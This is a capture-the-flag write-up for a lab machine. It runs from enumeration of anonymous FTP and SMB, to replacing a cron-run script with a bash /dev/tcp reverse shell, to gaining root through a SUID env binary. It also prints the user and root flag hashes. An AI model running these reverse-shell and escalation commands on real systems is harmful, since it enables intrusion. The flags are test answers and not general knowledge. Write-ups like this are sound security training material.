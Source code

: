 ```yaml
---
sticker: emoji//1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 139  | smb     |
| 445  | smb     |

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.34.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-04-01T18:15:57+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time:
|   date: 2025-04-01T18:15:57
|_  start_date: N/A
```

# RECONNAISSANCE
---


We got FTP and SMB enabled on the machine, also, we got anonymous login enabled in FTP at first sight thanks to the scan, this may be enabled on smb too, let's check out FTP first:


![](Pasted image 20250401131807.png)

We got a `scripts` directory, let's check it contents:

![](Pasted image 20250401132437.png)

We got some scripts in it, let's look at them:


![](Pasted image 20250401132655.png)



![](Pasted image 20250401132708.png)



![](Pasted image 20250401132719.png)


That `clean.sh` script seems interesting, let's keep it like that for now. We can proceed to analyze `SMB`, since the anonymous login may be enabled, we can view the contents of the shares:

```
smbclient -L \\\\10.10.235.71\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Let's check that `pics` share:

![](Pasted image 20250401133112.png)

Both files are not interesting, if we try extracting the contents with `steghide`, we'll need a passphrase so, they're not useful, let's proceed with exploitation then.




# EXPLOITATION
---


We already know that the FTP protocol has got a script called `clean.sh`, interesting part about the script is that:

- The script checks `if [ $tmp_files=0 ]` (missing space around =). While syntactically incorrect, this is treated as a string comparison. However, the script is likely **triggered by a cron job** (since `removed_files.log` has many entries).

If we can modify the contents of `clean.sh`, we can upload a reverse shell and gain access to the machine, let's test this by doing the following:


1. Create a new `malicious_clean.sh` script with the following contents to trigger a reverse shell:

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

2. Replace the script with our malicious one:

```
ftp IP # Login with anonymous login
cd scripts
put malicious_clean.sh clean.sh
```

3. Set up the listener and wait for the connection:

```
nc -lvnp PORT
```


If we reproduce these steps, we can see the following in our listener:

![](Pasted image 20250401133901.png)

We got a shell as `namelessone`, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step would be stabilizing our shell to move around the machine in a more comfortable way:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted image 20250401134051.png)

We can read `user.txt` now:

```
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```

Now, in order to get root, we can use linpeas to check for any privesc vector:

![](Pasted image 20250401134406.png)

For example, we are inside of the `sudo` group but since we do not know the password of `namelessone`, this is pretty much useless for now, if we keep looking at `linpeas` output, we can check this:

![](Pasted image 20250401134512.png)

We got `SUID` for `/usr/bin/env`, let's check `gtfobins`:

![](Pasted image 20250401134540.png)

So, we can do the following in order to get a root shell:

```
/usr/bin/env /bin/bash -p
```

![](Pasted image 20250401134615.png)

There we go, we can finally read `root.txt` and end the challenge:

```
bash-4.4# cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```

![](Pasted image 20250401134709.png)




